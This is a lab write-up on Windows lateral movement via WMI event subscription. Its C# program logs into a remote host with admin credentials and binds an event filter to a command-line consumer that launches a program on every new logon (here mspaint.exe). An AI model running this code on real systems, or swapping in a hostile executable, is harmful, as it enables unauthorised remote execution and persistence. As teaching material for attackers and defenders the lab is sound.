

# Lateral Movement via WMI Event Subscription

This is a quick lab to familiariaze with a lateral movement technique using WMI events, as described in [@domchell](https://twitter.com/domchell) aricle [I Like to Move It: Windows Lateral Movement Part 1 – WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - go check it out for more details, including detection ideas.

See my other lab related to persistence using WMI events:



## Walkthrough

The below C\# code for WMI events based lateral movement does a couple of things:

| Line | Action |
| :--- | :--- |
| 29 - 33       | Connects to the remote endpoint `192.168.56.105` using local admin credentials `spotless:123456` |
| 33 - 46 | Creates a new WMI filter `evilSpotlessFilter` on `192.168.56.105`.  It will get triggered when a new logon session is created on `192.168.56.105` |
| 49 - 52                        | Creates a WMI consumer `evilSpotlessConsumer` on `192.168.56.105`.  This consumer executes `mspaint.exe` on `192.168.56.105`, when the filter `evilSpotlessFilter` is triggered \(upon new logon session creation\) |
| 55 - 58                           | WMI filter `evilSpotlessFilter` and WMI consumer `evilSpotlessConsumer` are bound. In layman's terms, the system `192.168.56.105` is instructed to **DEFINITELY** fire `mspaint.exe` on each new logon session that is created on the system. |

```csharp
// code completely stolen from @domchell article 
// https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
// slightly modified to accommodate this lab

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmisubscription_lateralmovement
{
    class Program
    {
        static void Main(string[] args)
        {

            // Connect to remote endpoint for WMI management
            string NAMESPACE = @"\\192.168.56.105\root\subscription";

            ConnectionOptions cOption = new ConnectionOptions();
            ManagementScope scope = null;
            scope = new ManagementScope(NAMESPACE, cOption);
            
            scope.Options.Username = "spotless";
            scope.Options.Password = "123456";
            scope.Options.Authority = string.Format("ntlmdomain:{0}", ".");
            
            scope.Options.EnablePrivileges = true;
            scope.Options.Authentication = AuthenticationLevel.PacketPrivacy;
            scope.Options.Impersonation = ImpersonationLevel.Impersonate;
            scope.Connect();

            // Create WMI event filter
            ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);

            string query = "SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'";
            WqlEventQuery myEventQuery = new WqlEventQuery(query);

            ManagementObject myEventFilter = wmiEventFilter.CreateInstance();
            myEventFilter["Name"] = "evilSpotlessFilter";
            myEventFilter["Query"] = myEventQuery.QueryString;
            myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
            myEventFilter["EventNameSpace"] = @"root\cimv2";
            myEventFilter.Put();

            // Create WMI event consumer
            ManagementObject myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
            myEventConsumer["Name"] = "evilSpotlessConsumer";
            myEventConsumer["ExecutablePath"] = "mspaint.exe";
            myEventConsumer.Put();

            // Bind filter and consumer
            ManagementObject  myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"), null).CreateInstance();
            myBinder["Filter"] = myEventFilter.Path.RelativePath;
            myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
            myBinder.Put();

            // Cleanup
            // myEventFilter.Delete();
            // myEventConsumer.Delete();
            // myBinder.Delete();

        }
    }
}
```

## Observations

Once `connect` method is called, a couple of connections from the attacking machine \(top right\) are initiated to the target machine `192.168.56.105` \(bottom right\) over port TCP 135 \(traffic receiver is svchost.exe as it's hosting the RPC service through which we are communicating\):


After the code has executed, it will have created the WMI event filters, consumers and bind them on the target host `192.168.56.105`.

On the target host, we can check if the said filters and consumers were created like so:

```csharp
# view wmi filters
Get-WmiObject -Class __EventFilter -Namespace root\subscription

# view wmi consumers
Get-WmiObject -Class __EventConsumer -Namespace root\subscription

# view bindings
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

Below shows output of the `evilSpotlessFilter` WMI filter we created on the target system:


## Demo

Below shows the WMI events based lateral movement technique in action:

* On the left, we compile and run the code that creates WMI event filters, consumers and binds them together
* In the top right corner - ther is a ProcMon that is set to capture when a new `mspaint.exe` process starts. In our case, it should start once there is a new logon session created on the system \(remember, because of the `evilSpotlessFilter`\)
* In the bottom right corner there is a powershell console initiating a new logon session with `runas.exe`. Once the authentication succeeds, a new logon session is created, cmd.exe is spawned and the WMI event filter `evilSpotlessFilter` is triggered and WMI event consumer `evilSpotlessConsumer` kicks off the `mspaint.exe`:



## References






